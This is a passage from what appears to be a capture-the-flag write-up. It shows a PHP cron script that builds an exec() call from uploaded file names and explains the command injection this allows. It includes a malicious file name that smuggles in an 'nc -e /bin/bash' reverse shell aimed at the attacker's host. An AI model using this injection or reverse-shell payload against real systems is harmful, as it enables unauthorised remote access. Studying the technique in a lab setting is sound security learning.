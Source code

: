 
We can see that the `check_attack.php` script is run every 1/3 minutes via this cron job. 


+ `check_attack.php`


The file reads as such:

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>
```


Notice the `exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");` near the end? There is an obvious command injection from the `$value` varaible. This value get's generated when the script iterates over the files at `/var/www/html/uploads`, so if we plant a file named like this: `a; nc -e /bin/bash 10.10.14.101 9001` we should get a shell back as `guly`.


The issue is that creating files like that result in a `No such file or directory` error. To circumvent this we can use a common trick which is encoding the payload. 
